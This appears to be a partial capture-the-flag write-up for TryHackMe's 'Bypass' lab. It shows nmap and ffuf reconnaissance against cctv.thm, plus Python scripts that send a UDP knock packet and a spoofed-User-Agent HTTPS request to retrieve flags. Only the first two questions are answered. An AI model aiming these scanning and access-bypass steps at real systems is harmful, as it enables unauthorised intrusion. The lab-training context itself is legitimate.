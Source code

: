 # Bypass

**Room Link:** [https://tryhackme.com/r/room/bypass](https://tryhackme.com/r/room/bypass)



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=1?

**Kali**

```
nmap -A cctv.thm
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u https://cctv.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I first tried using knock but it wasn't working, probably because it's not actually sending a message.

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock cctv.thm 5000:udp -v
```

**knock.py**

```
import socket

port = 5000
host = 'cctv.thm'
msg = 'Knock,Knock...TheSysRat is here!'.encode()

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.bind(('', 5000))
    s.sendto(msg, (host, port))
    s.close()
    print('Packet send correctly')
except:
    print('Something wrong')
```

**Kali**

```
python knock.py 
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=2?

**knock.py**

```
import socket
import ssl

# Target server and port
host = "cctv.thm"
port = 443  # HTTPS port for TCP request

# Target path
path = "/fpassword.php?id=2"

# Custom headers with User-Agent
request = f"GET {path} HTTP/1.1\r\n" \
          f"Host: {host}\r\n" \
          f"User-Agent: I am Steve Friend\r\n" \
          f"Connection: close\r\n\r\n"

# Create an SSL context that ignores certificate verification
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

# Create a TCP socket and wrap it in SSL
with socket.create_connection((host, port)) as sock:
    with context.wrap_socket(sock, server_hostname=host) as ssock:
        # Send the request
        ssock.sendall(request.encode())

        # Receive the response
        response = b""
        while True:
            data = ssock.recv(4096)
            if not data:
                break
            response += data

# Decode and print the response to get the flag
print(response.decode())

```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=3?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=4?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=5?



What is the password value for the first layer of security for the CCTV web panel?



What is the lsb\_release -r -s command output from the attached machine?



What is the username for the CCTV web panel?



What is the flag value after logging into the CCTV web panel?



